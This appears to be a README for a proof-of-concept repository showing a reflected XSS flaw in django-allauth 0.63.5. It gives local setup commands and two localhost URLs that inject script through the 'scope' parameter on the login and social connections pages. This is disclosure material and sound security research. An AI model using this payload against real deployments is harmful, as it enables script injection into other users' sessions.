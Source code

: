 # Proof of concept for a XSS vulnerability in django-allauth 0.63.5

## Requirements

- Python
- [uv](https://docs.astral.sh/uv/getting-started/installation/)

## Set up

```bash
$ git clone https://github.com/stsewd/poc-xss-django-allauth
$ cd poc-xss-django-allauth
$ uv run manage.py migrate
# Create a user to log into the application.
$ uv run manage.py createsuperuser
$ uv run manage.py runserver
```

## Proof of concept

**XSS in login page**

- While logged out, go to ``http://127.0.0.1:8000/accounts/login/?scope=</script><script>alert(document.domain)</script><script>``

**XSS in social connections page**

- Go to ``http://127.0.0.1:8000/accounts/login/``
- Log in with the user you created
- Go to ``http://127.0.0.1:8000/accounts/3rdparty/?scope=</script><script>alert(document.domain)</script><script>``
